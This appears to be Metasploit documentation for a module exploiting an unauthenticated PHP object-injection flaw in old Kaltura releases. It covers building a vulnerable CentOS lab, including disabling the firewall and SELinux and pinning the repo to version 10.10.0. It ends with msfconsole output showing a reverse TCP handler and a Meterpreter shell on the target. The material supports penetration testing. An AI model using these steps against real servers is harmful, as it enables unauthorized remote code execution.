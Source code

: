 ## Vulnerable Application

This module exploits a Object Injection vulnerability in Kaltura. By exploiting this vulnerability, unauthenticated users can execute arbitrary code under the context of the web server user.

Kaltura has a module named keditorservices that takes user input and then use it as an unserialize function parameter. The object constructed is based on the SektionEins Zend code execution POP chain PoC, with a minor modification to ensure Kaltura processes it and the Zend_Log function's __destruct() method is called. Kaltura prior to 11.1.0-2 versions are affected by issue.

**Vulnerable Application Installation Steps**

Kaltura has their own RPM and/or DEB packages to helps us to install it without any issue. Following steps are slightly different than official wiki in order to install vulnerable packages.

Following steps are valid CentOS 6 x64 bit operating system.

1. Install CentOS-6 x64 and run `yum update -y` in order to fetch and install latests packages. Also set hostname something like _kalturahack.dev_ would be wise. Because it will be used during Kaltura installation.
2. Disable iptables and selinux. 
```
iptables -F
service iptables stop
chkconfig iptables off
setenforce permissive
(selinux will be enabled on reboot unless editing /etc/selinux/config file.)
```
3. Install following pre-requisites.
* PHP 5.3.n, 5.4.n, 5.5.n, 5.6.n [the official distro repo version]
* MySQL/MariaDB [the official distro repo version]. Please make sure your MySQL is configured not to enforce strict mode.
* JRE 1.7.n (openjdk can be used)

4. Install Kaltura yum repo.
```
rpm -ihv http://installrepo.kaltura.org/releases/kaltura-release.noarch.rpm
```

5. Kaltura repo configures for latest version by default. We need to change it to one of the vulnerable release. Thus, open `/etc/yum.repos.d/kaltura.repo` file with your favorite text editor and perform following replacement.

Original file. (# lines just ignored)
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```
After changes.
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```

6. Install kaltura-server. This will take for a while. 
```
yum clean all
yum install kaltura-server
```

7. Start kaltura configuration script `/opt/kaltura/bin/kaltura-config-all.sh` .

```
[Email\NO]: "<your email address>"
CDN hostname [kalrpm.lcl]: "<your hostname>"
Apache virtual hostname [kalrpm.lcl]: "<your hostname>"
Which port will this Vhost listen on [80]?:

DB hostname [127.0.0.1]: "<127.0.0.1>"
DB port [3306]: "<3306>"
MySQL super user [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<root>"
MySQL super user passwd [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<your root password>"
Analytics DB hostname [127.0.0.1]: "<127.0.0.1>"
Analytics DB port [3306]: "<3306>"
Sphinx hostname [127.0.0.1]: "<127.0.0.1>"

Secondary Sphinx hostname: [leave empty if none] "<empty>"

VOD packager hostname [kalrpm.lcl]: "<http://kaltura-nginx-hostname>"

VOD packager port to listen on [88]: 

Service URL [http://kalrpm.lcl:80]: "<http://apache-hostname:80>"

Kaltura Admin user (email address): "<your email address>"
Admin user login password (must be minimum 8 chars and include at least one of each: upper-case, lower-case, number and a special character): "<your kaltura admin password>"
Confirm passwd: "<your kaltura admin password>"

Your time zone [see http://php.net/date.timezone], or press enter for [Europe/Amsterdam]: "<your timezone>"
How would you like to name your system (this name will show as the From field in emails sent by the system) [Kaltura Video Platform]? "<your preferred system name>"
Your website Contact Us URL [http://corp.kaltura.com/company/contact-us]: "<your contact URL>"
'Contact us' phone number [+1 800 871 5224]? "<your phone numer>"

Is your Apache working with SSL?[Y/n] "<n>"
It is recommended that you do work using HTTPs. Would you like to continue anyway?[N/y] "<y>"
Which port will this Vhost listen on? [80] "<80>"
Please select one of the following options [0]: "<0>"
```

I do recommend that leaving all default values as is except SSL. You may want to install Kaltura without SSL support.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/unix/webapp/kaltura_unserialize_rce 
msf exploit(kaltura_unserialize_rce) > set RHOST centoshacker.dev
RHOST => centoshacker.dev
msf exploit(kaltura_unserialize_rce) > check
[+] centoshacker.dev:80 The target is vulnerable.
msf exploit(kaltura_unserialize_rce) > exploit 

[*] Started reverse TCP handler on 10.0.0.1:4444 
[*] Sending stage (33721 bytes) to 10.0.0.134
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.134:50312) at 2016-09-17 22:56:44 +0300

meterpreter > pwd
/opt/kaltura/app/alpha/web
meterpreter >
```
